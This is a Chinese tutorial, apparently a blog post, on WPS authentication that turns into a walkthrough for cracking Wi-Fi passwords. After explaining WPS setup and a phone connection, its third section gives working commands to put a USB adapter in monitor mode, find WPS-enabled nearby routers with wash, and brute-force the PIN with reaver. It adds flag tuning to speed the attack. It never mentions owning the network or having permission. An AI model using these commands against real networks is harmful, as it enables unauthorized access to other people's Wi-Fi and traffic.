








# 技术解析：破解无线WIFI WPS认证机制

1. WPS认证机制
WPS(Wi-Fi Protected Setup，Wi-Fi保护设置)(有的叫做AOSS、有的叫做QSS，不过功能都一致。)是由Wi-Fi联盟组织实施的认证项目，主要致力于简化无线局域网的安装及安全性能配置工作。在传统方式下，用户新建一个无线网络时，必须在接入点手动设置网络名(SSID)和安全密钥，然后在客户端验证密钥以阻止“不速之客”的闯入。这整个过程需要用户具备Wi-Fi设备的背景知识和修改必要配置的能力。Wi- Fi Protected Setup能帮助用户自动设置网络名(SSID)、配置强大的WPA数据编码及认证功能，用户只需输入个人信息码(PIN方法)或按下按钮(按钮设置，或称PBC)，即能安全地连入WLAN。这大大简化了无线安全设置的操作。Wi-Fi Protected Setup支持多种通过Wi-Fi认证的802.11产品，包括接入点、无线适配器、Wi-Fi电话以及其他消费性电子设备。
WPS可以帮助客户端用户自动配置网络名(SSID)及无线加密密钥。对于普通用户来说，无需了解SSID和安全密钥的概念就能实现安全连接;而且用户的安全密钥不可能被外人破解，因为它是随机产生的;最重要的是用户无需记忆冗长的无线加密密码，避免了忘记密码的麻烦。

wps认证AP操作说明
1、在支持WPS的AP设备上一般会有一个按钮，按下这个按钮，在一定的时间内(通常为120s)它会等待客户设备连接。在网页的管理界面也有对应的操作，二者选其一即可。
2、按下网卡设备的WPS连接按钮(有些是QSS、AOSS等)去连接AP。(也可输入PIN码连接，需要AP做对应的设置)。
3、无线网卡和WPS认证的AP建立起连接。
WPS连接操作如diagram-WPS图示意

 

 
2. 连接WPS机制的WIFI 认证过程
并非所有的手机型号和ROM支持WPS认证的网络连接，有些是支持的，以天语的K-touch w806(大黄蜂)为例，说一下手机连接WPS的相关操作。
在“设置”——“无线和网络”——“wlan设置”下，有个添加WPS网络的选项，点击会有两个选项可选，分别为两种接入方式，一种是输入PIN码，另一种是按键。

连接成功后，路由器(AP)管理页面显示如下：

用wireshark进行分析。通过设置过滤，可以大致看到WPS认证连接大体过程。

绘制成流程图，大致过程如下：

 
3. WIFI密码破解过程
打开终端 输入 ifconfig wlan0 up” 加载usb网卡。
ifconfig wlan0 up
接下来“airmon-ng start wlan0” 监听模式已激活到了mon0。
airmon-ng start wlan0

注：wlan0并不一定是固定的，插入其他的usb网卡系统会自动的以wlan1，wlan2等命名。usb网卡需要系统支持。推荐RTF8187系列，本人亲测稳定可用。
查看周边路由AP的信息。记录下你要学习的路由MAC地址。
airodump-ng mon0”1
特别提示：只有AP开启了WPS、QSS功能，才可以用PIN法学习PSK密码!
使用wash命令查看周围无线wifi的属性,C是大写在wps locked一项中有显示的
wash -i mon0 -C1

抓PIN包，枚举PIN码
reaver -i mon0 -b 目标mac地址 -a -S -vv1
注意:
MAC地址中冒号不可省略，MAC地址的字母大小写均可，-S是大写字母， -vv
是两个V不是W!
-i 监听后接口名称
-b 目标mac地址
-a 自动检测目标AP最佳配置
-S 使用最小的DH key(可以提高PJ速度)
-vv 显示更多的非严重警告
-d 即delay每穷举一次的闲置时间 预设为1秒
-t 即timeout每次穷举等待反馈的最长时间
-c指定频道可以方便找到信号，如-c1 指定1频道，大家查看自己的目标频道做相应修改 (非TP-LINK路由推荐–d9 –t9参数防止路由僵死
reaver -i mon0 -b MAC -a -S –d9 –t9 -vv)。
剩下的就是漫长的等待，要有耐心!!!
祝好!

[回到页首](../index.md)